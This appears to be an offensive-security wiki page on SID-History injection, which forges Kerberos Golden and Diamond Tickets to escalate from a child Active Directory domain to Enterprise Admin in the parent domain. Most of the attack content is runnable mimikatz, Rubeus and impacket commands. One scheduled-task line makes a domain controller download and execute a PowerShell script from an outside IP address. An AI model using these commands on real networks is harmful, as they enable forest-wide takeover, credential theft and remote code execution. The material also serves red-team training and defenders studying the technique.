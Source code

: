 # SID-History Injection

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in ByteBreach**? or do you want to have access to the **latest version of the PEASS or download ByteBreach in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@khulnasoftm**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the [bytebreach repo](https://github.com/khulnasoft/bytebreach) and [bytebreach-cloud repo](https://github.com/khulnasoft/bytebreach-cloud)**.

</details>

## SID History Injection Attack

The focus of the **SID History Injection Attack** is aiding **user migration between domains** while ensuring continued access to resources from the former domain. This is accomplished by **incorporating the user's previous Security Identifier (SID) into the SID History** of their new account. Notably, this process can be manipulated to grant unauthorized access by adding the SID of a high-privilege group (such as Enterprise Admins or Domain Admins) from the parent domain to the SID History. This exploitation confers access to all resources within the parent domain.

Two methods exist for executing this attack: through the creation of either a **Golden Ticket** or a **Diamond Ticket**. 

To pinpoint the SID for the **"Enterprise Admins"** group, one must first locate the SID of the root domain. Following the identification, the Enterprise Admins group SID can be constructed by appending `-519` to the root domain's SID. For instance, if the root domain SID is `S-1-5-21-280534878-1496970234-700767426`, the resulting SID for the "Enterprise Admins" group would be `S-1-5-21-280534878-1496970234-700767426-519`.

You could also use the **Domain Admins** groups, which ends in **512**.

Another way yo find the SID of a group of the other domain (for example "Domain Admins") is with:

```powershell
Get-DomainGroup -Identity "Domain Admins" -Domain parent.io -Properties ObjectSid
```

### Golden Ticket (Mimikatz) with KRBTGT-AES256

{% code overflow="wrap" %}
```bash
mimikatz.exe "kerberos::golden /user:Administrator /domain:<current_domain> /sid:<current_domain_sid> /sids:<victim_domain_sid_of_group> /aes256:<krbtgt_aes256> /startoffset:-10 /endin:600 /renewmax:10080 /ticket:ticket.kirbi" "exit"

/user is the username to impersonate (could be anything)
/domain is the current domain.
/sid is the current domain SID.
/sids is the SID of the target group to add ourselves to.
/aes256 is the AES256 key of the current domain's krbtgt account.
--> You could also use /krbtgt:<HTML of krbtgt> instead of the "/aes256" option
/startoffset sets the start time of the ticket to 10 mins before the current time.
/endin sets the expiry date for the ticket to 60 mins.
/renewmax sets how long the ticket can be valid for if renewed.

# The previous command will generate a file called ticket.kirbi
# Just loading you can perform a dcsync attack agains the domain
```
{% endcode %}

For more info about golden tickets check:

{% content-ref url="golden-ticket.md" %}
[golden-ticket.md](golden-ticket.md)
{% endcontent-ref %}

### Diamond Ticket (Rubeus + KRBTGT-AES256)

{% code overflow="wrap" %}
```powershell
# Use the /sids param
Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:512 /sids:S-1-5-21-378720957-2217973887-3501892633-512 /krbkey:390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa /nowrap

# Or a ptt with a golden ticket
Rubeus.exe golden /rc4:<krbtgt hash> /domain:<child_domain> /sid:<child_domain_sid>  /sids:<parent_domain_sid>-519 /user:Administrator /ptt

# You can use "Administrator" as username or any other string
```
{% endcode %}

For more info about diamond tickets check:

{% content-ref url="diamond-ticket.md" %}
[diamond-ticket.md](diamond-ticket.md)
{% endcontent-ref %}

{% code overflow="wrap" %}
```bash
.\asktgs.exe C:\AD\Tools\kekeo_old\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local 
.\kirbikator.exe lsa .\CIFS.mcorpdc.moneycorp.local.kirbi
ls \\mcorp-dc.moneycorp.local\c$
```
{% endcode %}

Escalate to DA of root or Enterprise admin using the KRBTGT hash of the compromised domain:

{% code overflow="wrap" %}
```bash
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-211874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\AD\Tools\krbtgt_tkt.kirbi"'

Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"'

gwmi -class win32_operatingsystem -ComputerName mcorpdc.moneycorp.local

schtasks /create /S mcorp-dc.moneycorp.local /SC Weekely /RU "NT Authority\SYSTEM" /TN "STCheck114" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1''')'"

schtasks /Run /S mcorp-dc.moneycorp.local /TN "STCheck114"
```
{% endcode %}

With the acquired permissions from the attack you can execute for example a DCSync attack in the new domain:

{% content-ref url="dcsync.md" %}
[dcsync.md](dcsync.md)
{% endcontent-ref %}

### From linux

#### Manual with [ticketer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py)

{% code overflow="wrap" %}
```bash
# This is for an attack from child to root domain
# Get child domain SID
lookupsid.py <child_domain>/username@10.10.10.10 | grep "Domain SID"
# Get root domain SID
lookupsid.py <child_domain>/username@10.10.10.10 | grep -B20 "Enterprise Admins" | grep "Domain SID"

# Generate golden ticket
ticketer.py -nthash <krbtgt_hash> -domain <child_domain> -domain-sid <child_domain_sid> -extra-sid <root_domain_sid> Administrator

# NOTE THAT THE USERNAME ADMINISTRATOR COULD BE ACTUALLY ANYTHING
# JUST USE THE SAME USERNAME IN THE NEXT STEPS

# Load ticket
export KRB5CCNAME=hacker.ccache 

# psexec in domain controller of root
psexec.py <child_domain>/Administrator@dc.root.local -k -no-pass -target-ip 10.10.10.10
```
{% endcode %}

#### Automatic using [raiseChild.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/raiseChild.py)

This is an Impacket script which will **automate escalating from child to parent domain**. The script needs:

* Target domain controller
* Creds for an admin user in the child domain

The flow is:

* Obtains the SID for the Enterprise Admins group of the parent domain
* Retrieves the hash for the KRBTGT account in the child domain
* Creates a Golden Ticket
* Logs into the parent domain
* Retrieves credentials for the Administrator account in the parent domain
* If the `target-exec` switch is specified, it authenticates to the parent domain's Domain Controller via Psexec.

```bash
raiseChild.py -target-exec 10.10.10.10 <child_domain>/username
```

## References
* [https://adsecurity.org/?p=1772](https://adsecurity.org/?p=1772)
* [https://www.sentinelone.com/blog/windows-sid-history-injection-exposure-blog/](https://www.sentinelone.com/blog/windows-sid-history-injection-exposure-blog/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in ByteBreach**? or do you want to have access to the **latest version of the PEASS or download ByteBreach in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@khulnasoftm**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the [bytebreach repo](https://github.com/khulnasoft/bytebreach) and [bytebreach-cloud repo](https://github.com/khulnasoft/bytebreach-cloud)**.

</details>

